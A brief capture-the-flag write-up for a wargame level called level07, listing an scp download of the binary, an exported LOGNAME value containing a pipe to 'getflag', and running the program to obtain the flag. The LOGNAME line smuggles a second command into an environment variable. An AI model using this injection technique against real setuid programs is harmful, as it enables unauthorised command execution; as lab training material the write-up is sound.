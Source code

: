 # Download file and inspect with Ghidra
`scp -P 4242 level07@<VM address>:level07 .`

# Modify LOGNAME env value
`export LOGNAME=" 42 | getflag"`

# Get the flag
`./level07`
